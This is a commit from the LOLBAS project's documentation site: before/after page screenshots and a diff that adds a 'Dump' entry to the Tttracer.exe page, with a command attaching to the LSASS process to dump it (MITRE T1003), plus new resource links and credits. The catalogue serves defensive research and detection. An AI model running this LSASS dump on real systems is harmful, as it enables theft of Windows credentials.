

Before and after one commit to LOLBAS-Project/LOLBAS-Project.github.io, a Jekyll site: the page built from _lolbas/Binaries/Tttracer.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 983 px from its top, so only the background shows below that.

Commit message:
Added Dump example to TTTracer.exe

```diff
--- a/_lolbas/Binaries/Tttracer.md
+++ b/_lolbas/Binaries/Tttracer.md
@@ -12,6 +12,14 @@
     MitreID: T1218
     MitreLink: https://attack.mitre.org/wiki/Technique/T1218
     OperatingSystem: Windows 10 1809 and newer
+  - Command: TTTracer.exe -dumpFull -attach <lsass_pid>
+    Description: Dumps process using tttracer.exe. Requires administrator privileges
+    Usecase: Dump process by PID
+    Category: Dump
+    Privileges: Administrator
+    MitreID: T1003
+    MitreLink: https://attack.mitre.org/wiki/Technique/T1003
+    OperatingSystem: Windows 10 1809 and newer
 Full_Path:
   - Path: C:\Windows\System32\tttracer.exe
   - Path: C:\Windows\SysWOW64\tttracer.exe
@@ -21,7 +29,11 @@
  - IOC: Parent child relationship. Tttracer parent for executed command
 Resources:
   - Link: https://twitter.com/oulusoyum/status/1191329746069655553
+  - Link: https://twitter.com/mattifestation/status/1196390321783025666
+  - Link: https://lists.samba.org/archive/cifs-protocol/2016-April/002877.html
 Acknowledgement:
   - Person: Onur Ulusoy
     Handle: '@oulusoyum'
+  - Person: Matt Graeber
+    Handle: '@mattifestation'
 ---
```
